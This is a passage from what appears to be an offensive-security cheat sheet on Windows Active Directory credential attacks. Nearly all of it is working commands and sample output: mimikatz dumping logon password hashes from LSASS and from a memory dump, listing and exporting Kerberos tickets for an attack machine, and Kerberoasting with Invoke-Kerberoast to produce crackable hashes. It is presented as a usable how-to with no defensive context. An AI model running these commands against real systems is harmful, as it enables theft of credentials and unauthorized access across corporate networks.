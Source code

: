 ```powershell
}
```


### Mimikatz

#### Password Hashes

To get password hashes on windows, we can use [mimikatz](https://github.com/gentilkiwi/mimikatz)

Then in mimikats:

```sh
c:\Tools\active_directory>mimikatz.exe

  .#####.   mimikatz 2.1.1 (x86) built on Mar 25 2018 21:00:57
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords
```

or

```sh
sekurlsa::minidump C:\Users\%USERNAME%\Documents\lsass.DMP
```

#### Tickets [Ticket Granting Ticket / Ticket Granting Service]

TGT can request for TGS for resources wanted in domain

```sh
sekurlsa::tickets
```

### Display kerberos service ticket

```powershell
PS C:\Windows\system32> Add-Type -AssemblyName System.IdentityModel
PS C:\Windows\system32> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWe
bServer.corp.com'

Id                   : uuid-393f01fe-efad-46c9-a875-8ddc9eb96828-2
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 5/29/2020 8:30:02 PM
ValidTo              : 5/30/2020 6:26:32 AM
ServicePrincipalName : HTTP/CorpWebServer.corp.com
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey

# can alternatively use klist command 
PS C:\Windows\system32> klist

# or inside mimikatz to export into files to be downloaded to attack machine:
mimikatz # kerberos::list /export

# Or use Invoke-kerberoast
Import-Module .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -OutputFormat john | Select-Object -ExpandProperty hash |% {$_.replace(':',':$krb5tgs$23$')}
```